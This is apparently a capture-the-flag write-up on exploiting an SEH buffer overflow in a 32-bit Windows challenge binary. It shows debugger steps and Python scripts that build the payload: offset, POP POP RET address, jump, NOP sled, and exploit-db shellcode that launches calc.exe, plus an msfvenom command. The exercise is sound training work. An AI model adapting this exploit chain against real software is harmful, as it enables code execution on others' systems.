






# Software Exploitation
## Challenge 6
- The goal is to take over the program control flow on a Windows 32-bit binary, like making it launch `calc.exe`

References:
- https://coalfire.com/the-coalfire-blog/the-basics-of-exploit-development-2-seh-overflows
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow

## Environment
- [VirtualBox](https://www.virtualbox.org/) 7.0
    - Always use a VM when debugging and exploiting binaries.
- [Windows 10](https://www.microsoft.com/software-download/windows10) Pro (32-bit)
    - It's fine to run the challenge binary on Windows 11 64-bit but in general Windows 10 32-bit exploiting is easier.
    - Notepad++, Python
    - Check if `Randomize memory allocations (Bottom-up ASLR)` is disabled (by default) under `Windows Security -> App & browser control -> Exploit protection`.



- [Kali Linux](https://www.kali.org/) (optional)
    - To easily run tools like [Msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) for generating [shellcode](https://en.wikipedia.org/wiki/Shellcode).
- [x64dbg](https://x64dbg.com/) (32dbg) debugger with the [ERC.Xdbg](https://github.com/Andy53/ERC.Xdbg) plugin.
- I used [Ghidra](https://ghidra-sre.org/) and [Binary Ninja](https://binary.ninja/) on a Windows 11 (64-bit) VM to look at the decompiled code but I'm not experienced with them.

## Analysis
- The binary is `challenge6.exe`
- `Git\usr\bin\file` shows it's a x86/32-bit Portable Executable binary.
```
PS C:\Dev> file challenge6.exe
challenge6.exe: PE32 executable (console) Intel 80386, for MS Windows
```

- According to [winchecksec](https://github.com/trailofbits/winchecksec), it's possible to use SEH and the SafeSEH mitigation is not enabled.
```
PS C:\Dev> winchecksec challenge6.exe
Warn: undersized load config, probably missing fields
Results for: challenge6.exe
Dynamic Base    : "NotPresent"
ASLR            : "NotPresent"  # "Binaries with ASLR support have randomized virtual memory layouts. ASLR is enabled by dynamic base support (without stripped relocation entries) or by using a managed runtime like .NET."
High Entropy VA : "NotPresent"
Force Integrity : "NotPresent"
Isolation       : "Present"     # "Binaries with isolation support cause the Windows loader to perform a manifest lookup on program load."
NX              : "NotPresent"  # "Binaries with NX support can be run with hardware-enforced memory permissions (i.e., hardware DEP)."
SEH             : "Present"     # "Binaries with SEH support can use structured exception handlers."
CFG             : "NotPresent"
RFG             : "NotPresent"
SafeSEH         : "NotPresent"  # "Binaries with SafeSEH enabled have additional protections for stack-based structured exception handlers."
GS              : "Present"     # "Binaries with GS enabled have additional protections against stack-based buffer overflows."
Authenticode    : "NotPresent"
.NET            : "NotPresent"
```

The binary is observed to print the same message back, if there are multiple argvs it prints `= [No] =`.
```
PS C:\Dev\challenge6> .\challenge6.exe hello
hello
PS C:\Dev\challenge6> .\challenge6.exe hello world
= [No] =
```
It seems to crash from a buffer overflow when passing  more than 47 characters.
```
PS C:\Dev\challenge6> .\challenge6.exe AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PS C:\Dev\challenge6> .\challenge6.exe AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
```

So this might be vulnerable to Structured Exception Handler (SEH) overflows.

## Exploitation
### Find SEH position
- We start with passing an arbitrary amount of like 300 A's to check if the SEH records can be overwritten.
```py
f = open("crash1.txt", "wb")

buf = b"\x41" * 300

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Commandline arguments are passed via this menu.


After a few times pressing F9, the SEH handler pointer and record pointer are overwritten with `4141414`.


- Now we can use a non-repeating pattern (NRP) to see at which position the SEH records get overwritten. Note that all ERC commands only work while the debugger is attached to a process.
```py
ERC --Pattern create 300
```



We need to combine the output into a long string to paste it into the commandline argument.
```py
f = open("pattern.txt", "w")

buf = ""
buf += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac" 
buf += "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8" 
buf += "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A" 
buf += "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"

f.write(buf)
f.close()
# Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```


Now we run the program and find the position of the SEH record at 60.
```
ERC --FindNrp
```


### Overwriting SEH record
Update the payload to overwrite the SEH record with B's and C's.
```py
f = open("crash2.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\x42\x42\x42\x42" # BBBB
buf += b"\x43\x43\x43\x43" # CCCC
buf += b"\x44" * 10        # DDDD...

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDDDDDDD
```

Run the program and the first SEH record is confirmed to be overwritten with B's `(0x42)`.


### Finding a POP, POP, RET pointer
Now that we control the SEH record, we need to find an eligible POP, POP, RET instruction set. Which does not have protections like ASLR. It should be from a DLL or EXE of the program itself.
```
ERC --SEH
```



After breakpointing the first address and debugging, this instruction seems to get executed first. The other ones get executed later or are part of invalid `POP, POP, POP, RET` instructions.
```py
0x01401318 | pop ecx, pop ecx, ret | False |  False   |  False   |   False   |  False  |  C:\Dev\challenge6\challenge6.exe 
```

### Overwriting SEH record with address
We overwrite the SEH handler pointer with the (little-endian) address of our POP, POP, RET instruction.
```py
f = open("crash3.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\x42\x42\x42\x42" # BBBB
buf += b"\x18\x13\x40\x01" # 0x01401318 POP, POP, RET
buf += b"\x44" * 10        # DDDD...

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB@DDDDDDDDDD
```
When debugging we confirm that the record is overwritten with `0x01401318`.


And that our breakpointed POP, POP, RET instruction set jumps to this address when stepping over (with F8).




### Jumping to NOP sled
We overwrite the SEH record with a relative JMP instruction to our [NOP sled](https://en.wikipedia.org/wiki/NOP_slide). It needs to jump by at least 8 bytes, so somewhere in the middle at 13 bytes should be safe.
- `ERC --Assemble jmp 0013` = `EB 0B`
- `ERC --Assemble nop` = `90`
```py
f = open("crash4.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\xeb\x0b\x90\x90" # jump 13 bytes
buf += b"\x18\x13\x40\x01" # 0x01401318 POP, POP, RET
buf += b"\x90" * 50        # NOP sled

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA됐@
```
Confirm we jump into the NOP sled.



### Shellcode
The Coalfire writeup uses Msfvenom to generate shellcode, but I was not able to pass it properly as a commandline argument, maybe because of encoded (double) quotes and spacing. At least `NUL, LF, CR` should be bad characters.
```
msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
```


But the shellcode from https://www.exploit-db.com/shellcodes/48116 by Bobby Cooke seemed to work fine.  
*Never trust shellcode, always disassemble it first with sites like https://defuse.ca/online-x86-assembler.htm*
```py
f = open("seh_exploit.txt", "wb")

buf =  b"\x41" * 60        # AAAA until SEH record
buf += b"\xeb\x0b\x90\x90" # jump 13 bytes
buf += b"\x18\x13\x40\x01" # 0x01401318 POP, POP, RET
buf += b"\x90" * 50        # NOP sled

# https://www.exploit-db.com/shellcodes/48116
buf += b"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
buf += b"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
buf += b"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
buf += b"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
buf += b"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
buf += b"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
buf += b"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
buf += b"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
buf += b"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
buf += b"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
buf += b"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
buf += b"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
buf += b"\x52\xff\xd0"

f.write(buf)
f.close()
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA됐@‰åƒì 1Ûd‹[0‹[‹[‹‹‹C‰Eü‹X<Ë[xË{ lj}ø‹K$Á‰Mô‹S‰Uð‹S‰Uìë21À‹Uì‹}ø‹u1Éü‹<‡}üfƒÁó¦t@9Ðrä‹Mô‹Uðf‹A‹‚EüúxxecÁêRhWinE‰eè¸ÿÿÿ1ÉQh.exehcalc‰ãAQSÿÐ1ɹessÁéQhProchExit‰eè‡ÿÿÿ1ÒRÿÐ
```


Now when debugging the shellcode, `calc.exe` should be popped.

- Use `ANSI / ISO 8859-1` encoding instead of UTF-8 if using VS Code.
- Enclose the payload in double quotes when passing it as commandline argument, since there seems to be a single quote and spaces encoded in the payload.


When not using a debugger it will take a while to pop calc.exe and does so in an infinite loop and while slowing down the system; I suppose this is not intended behavior, but in the debugger you can see the control flow will keep jumping from the shellcode to the exception handler and back into the POP POP RET instruction set.

- Pasting from the clipboard into PowerShell with right-click instead of `ctrl-v` appears to break the input.


